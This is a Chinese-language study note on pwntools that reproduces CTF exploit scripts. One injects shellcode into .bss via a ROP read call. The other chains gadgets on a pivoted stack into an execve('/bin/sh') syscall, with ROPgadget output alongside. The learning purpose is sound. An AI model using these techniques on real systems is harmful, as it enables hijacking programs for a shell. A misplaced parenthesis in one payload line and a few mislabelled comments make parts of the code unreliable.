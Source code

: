 # pwntools模块

之前做了一些`pwn`题目，但是感觉自己对于pwntools的使用不算很清晰，有一些模块也没有理清楚

先看这个君莫笑师傅的exp

```python
# 这个例子是ret2libc的，生成一段shellcode注入到bss段中之后进行调用？
from pwn import *
import time

proc = './static'
bss_addr = 0x0804A024

context.binary = proc
shellcode = asm(shellcraft.sh())
p = process(proc)
rop = ROP(proc) #构造了一个rop

rop.read(0, bss_addr+100, len(shellcode)) #直接调用read函数
rop.call(bss_addr+100)
p.recvuntil("Welcome to zsctf!")
p.send('a'*20+str(rop))

time.sleep(1)
p.send(shellcode)
p.interactive()
```

这里吧`read`函数的文档找了一下：

```c
#include <unistd>
ssize_t read(int filedes, void *buf, size_t nbytes);
// 返回：若成功则返回读到的字节数，若已到文件末尾则返回0，若出错则返回-1
// filedes：文件描述符
// buf:读取数据缓存区
// nbytes:要读取的字节数
```

文件描述符是啥来着又忘了。。

| 文件描述符 | 缩写   | 描述         |
| ---------- | ------ | ------------ |
| 0          | STDIN  | 标准输入     |
| 1          | STDOUT | 标准输出     |
| 2          | STDERR | 标准错误输出 |

所以我们使用了 `rop.read(0, bss_addr+100, len(shellcode))`函数， 就相当于从标准输入读取文件， 缓冲区是`bss_addr+100`,要读取的字节数就是`len(shellcode)`这么大

所以借`read`函数完成了一次写缓冲区的操作？

善良的程序以为我们真的只是传递了数据进去，谁想到我们传进去的竟然是一段`shellcode`！！

所以之后调用`rop.call(bss_addr+100)`就完成了`shellcode`的执行了

同时我们再把`write`函数复习一下吧

```c
#include <unistd>
ssize_t write(int filedes, void *buf, size_t nbytes);
// 返回：若成功则返回写入的字节数，若出错则返回-1
// filedes：文件描述符
// buf:待写入数据缓存区
// nbytes:要写入的字节数
```

和`read`函数是类似的

看到了一篇[文章](<https://www.jianshu.com/p/0d45e2025d97>)

预览一下rop的所有属性和方法

```python
In [59]: rop.
rop.base                   rop.elfs                   rop.leave                  rop.resolve
rop.build                  rop.find_gadget            rop.migrate                rop.search
rop.call                   rop.find_stack_adjustment  rop.migrated               rop.search_iter
rop.chain                  rop.from_blob              rop.pivots                 rop.setRegisters
rop.describe               rop.gadgets                rop.raw                    rop.unresolve
rop.dump                   rop.generatePadding        rop.regs           
```

还挺多的



## gadget 的使用

来看校赛的题目吧

先来分析一下某位师傅的wp

![img](https://qqadapt.qpic.cn/txdocpic/0/ab0a7d9168dfb8f02ad3593279935c28/0)

利用了标黄色的几个`gadget`

先看一下：

```
0x080491e8 : pop eax; leave; ret
0x080491e4 : pop ecx; pop ebx; leave ret
0x080491e1 : pop edx; leave; ret

解释一下 leave :
mv esp, ebp   ;也就是相当于将当前栈的基地赋给 esp
pop ebp; 恢复ebp

还有 ret指令
pop eip   ;将当前栈顶的内容pop到eip中，然后跳转过去
```

执行一次系统调用

`execve("/bin/sh",NULL,NULL)`

需要做一下准备

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

要想达到这个效果，我们需要精确的对栈进行布局

> **payload :** padding + address of gadget 1 + address of gadget 2 + ...... address of gadget n

![img](https://pic1.zhimg.com/80/v2-a4964a02ab5a974439a157cf9d5b017c_hd.png)



这真的是一个奇妙又精巧的构造，我们知道函数在退栈的时候会 `leave ret`， 也就是`pop eip`

如果返回地址被覆盖，跳转到了我们想要的`gadget`，就像多米诺骨牌一样，第一个触发了，后面的就会依次触发，最后就如同三级火箭终于依靠那多余的几级升上了天一样，我们的目标就此达成了

说归说，怎么做还是有很大的技术含量的

先把师傅的exp看一下

```python
from pwn import *
import time

context.log_level = 'debug'
proc = './Knock-Knock3'

p = process(proc)
elf = ELF(proc)
gdb.attach(p)
p.recv()
padding = 'a'*9 + '\x00' + 'a'*8
fakeebp = 0x804c038  #这个地址是bss段地址
payload1 = padding
payload1 += p32(fakeebp+0x100)
payload1 += p32(elf.plt['gets']+p32(0x080491EB)+p32(fakeebp))  #0x080491EB是who函数的地址
p.sendline(payload1)
time.sleep(1)
#gadgets
popebxret = p32(0x0804901e)   # pop ebx; ret
popeaxleaveret = p32(0x080491e8)  #pop eax; leave; ret
popecxebxleaveret = p32(0x080491e4) # pop ecx; pop ebx; leave; ret
popedxleaveret = p32(0x080491e1)  # pop edx; ret
# reg
eax = p32(0x0b)
ebx = p32(0x0804a063)
ecx = p32(0x00)
edx = p32(0x00)
int80 = p32(0x080491d5)

setstackonbss = p32(fakeebp + 0x4*4) + popecxebxleaveret + ecx + ebx + p32(fakeebp + 0x7*4) + popedxleaveret + edx +p32(fakeebp + 0x100) +int80

p.sendline(setstackonbss)
p.recv()
payload2 = padding + p32(fakeebp) + popeaxleaveret + eax
p.sendline(payload2)

p.interactive()
```

基本思路：覆盖到bss段，通过在bss段调用函数进行相关的内存布局，之后回到栈继续内存布局，最后成功地进行一次系统调用





还是复现一遍

```c
root@kali:~/pwn# ROPgadget --binary ./Knock-Knock3 | grep "pop eax"
0x080491e8 : pop eax ; leave ; ret
root@kali:~/pwn# ROPgadget --binary ./Knock-Knock3 | grep "pop ebx"
0x080493a1 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0804937d : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804901b : add esp, 8 ; pop ebx ; ret
0x08049317 : clc ; pop ecx ; pop ebx ; pop ebp ; lea esp, dword ptr [ecx - 4] ; ret
0x0804937b : jne 0x8049369 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08049315 : lea esp, dword ptr [ebp - 8] ; pop ecx ; pop ebx ; pop ebp ; lea esp, dword ptr [ecx - 4] ; ret
0x0804901c : les ecx, ptr [eax] ; pop ebx ; ret
0x080491e5 : pop ebx ; leave ; ret
0x08049319 : pop ebx ; pop ebp ; lea esp, dword ptr [ecx - 4] ; ret
0x08049380 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804901e : pop ebx ; ret
0x080491e4 : pop ecx ; pop ebx ; leave ; ret
0x08049318 : pop ecx ; pop ebx ; pop ebp ; lea esp, dword ptr [ecx - 4] ; ret
0x08049016 : sal byte ptr [edx + eax - 1], 0xd0 ; add esp, 8 ; pop ebx ; ret
root@kali:~/pwn# ROPgadget --binary ./Knock-Knock3 | grep "pop ecx"
0x08049317 : clc ; pop ecx ; pop ebx ; pop ebp ; lea esp, dword ptr [ecx - 4] ; ret
0x08049315 : lea esp, dword ptr [ebp - 8] ; pop ecx ; pop ebx ; pop ebp ; lea esp, dword ptr [ecx - 4] ; ret
0x080491e4 : pop ecx ; pop ebx ; leave ; ret
0x08049318 : pop ecx ; pop ebx ; pop ebp ; lea esp, dword ptr [ecx - 4] ; ret
root@kali:~/pwn# ROPgadget --binary ./Knock-Knock3 | grep "pop edx"
0x080491db : add byte ptr [0x2e24], al ; pop edx ; leave ; ret
0x080491da : add byte ptr [eax], al ; add eax, 0x2e24 ; pop edx ; leave ; ret
0x080491df : add byte ptr [eax], al ; pop edx ; leave ; ret
0x080491de : add byte ptr cs:[eax], al ; pop edx ; leave ; ret
0x080491dc : add eax, 0x2e24 ; pop edx ; leave ; ret
0x080491dd : and al, 0x2e ; add byte ptr [eax], al ; pop edx ; leave ; ret
0x080491e1 : pop edx ; leave ; ret
```

突然发现地址什么的都没有变化



